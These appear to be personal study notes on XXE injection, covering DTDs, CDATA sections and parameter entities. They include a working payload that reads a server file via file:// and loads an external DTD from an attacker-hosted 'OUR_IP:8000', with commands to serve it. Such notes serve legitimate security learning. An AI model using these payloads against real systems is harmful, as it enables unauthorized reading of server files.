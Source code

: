 XXE vulnerabilities mainly occur when an unsafe XML input references an external entity, any document or file processors that may perform XML parsing, like SVG image processors or PDF document processors, may also be vulnerable to XXE vulnerabilities, and we should update them as well.
# Defining Internal Entities
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
  <!ELEMENT note (to, from, message)>
  <!ELEMENT to (#PCDATA)>
  <!ELEMENT from (#PCDATA)>
  <!ELEMENT message (#PCDATA)>
]>
<note>
  <to>Alice</to>
  <from>Bob</from>
  <message>Hello there!</message>
</note>
```
- The root element is `note`
- `note` must contain `to`, `from`, and `message` elements in that order
# CDATA TAG?
CDATA stands for "Character Data" and is used to tell the XML parser to ignore markup characters within the CDATA section.

CDATA sections are wrapped with the following syntax:
`<![CDATA[ content goes here ]]>`

The primary purpose of CDATA sections is to include content that contains characters that would otherwise be interpreted as XML markup (like <, >, &, etc.) without having to escape them.

![[Pasted image 20250510174852.png]]

---
# XML Parameter Entities
a special type of entity that starts with a `%` character and can only be used within the DTD. if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined, as follows:
```xml
<!ENTITY joined "%begin;%file;%end;">
```

serve dtd
```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```
Now, we can reference our external entity (`xxe.dtd`) and then print the `&joined;`
entity.
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
```
## Exploit using Parameter Entity  
![[Pasted image 20250510175404.png]]

# (CDATA EXPLOIT STEPS)

1. define begin, end,  as parameter entities eg( %begin, %END)
2. write a dtd with entity definition `joined` that combines all parameter entities.
3. Reference that external .DTD with %XXE PE.
4.  call the external entity `&joined;`

---
# exercise
```
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```

![[Pasted image 20250510182531.png]]
